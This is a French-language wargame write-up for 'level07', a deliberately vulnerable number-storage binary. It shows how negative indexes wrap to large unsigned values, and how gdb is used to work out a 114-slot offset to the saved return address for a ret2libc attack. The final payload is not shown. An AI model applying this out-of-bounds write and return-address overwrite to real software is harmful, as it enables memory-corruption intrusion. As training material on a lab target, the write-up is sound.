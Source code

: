 # Level 07

```
$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 420
 Index: 1
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 0
 Completed read command successfully
Input command: read
 Index: 1
 Number at data[1] is 420
 Completed read command successfully
Input command: read
 Index: -1
 Number at data[4294967295] is 0
 Completed read command successfully
Input command: store
 Number: 42
 Index: -2
 Completed store command successfully
Input command: readt
 Index: -2
 Number at data[4294967294] is 42
 Completed readt command successfully
Input command: quit
```
Ce programme nous permet de stocker des nombres dans un tableau. Cependant, certains case sont réservées pour `wil`.<br />
On peut voir que le programme utilise des entiers non signés pour stocker les index. Cela signifie que si on rentre un index négatif, il sera converti en un entier non signé. Par exemple, `-1` deviendra `4294967295` (2^32 - 1).

Après avoir disassemblé le programme, on sait que le tableau a une taille de 100 nombres mais il n'y a pas de check sur l'index.

Donc on peut trouver le offset pour pouvoir écrire dans eip avec gdb

En premier temps on va trouver l'address d'eip
```sh
(gdb) b main
(gdb) r
(gdb) i f
...
 Saved registers:
  ebp at 0xffffcc58, eip at 0xffffcc5c

```
Ensuite on va trouver l'address de stockage, en regardant dans le code disas en appercois que l'offset est de `esp + 36` et soustraire les deux address.<br/>
On va devoir aussi diviser par 4 vu que le stockage stock les nombres sont contenu en four-byte integer. On obtient bien notre offset de 114 pour écrire notre ret2libc

```sh
(gdb) p $esp + 36
$8 = (void *) 0xffffca94
(gdb) p (0xffffcc5c - 0xffffca94)
$9 = 456
(gdb) p (0xffffcc5c - 0xffffca94) /4
$10 = 114
(gdb)
```

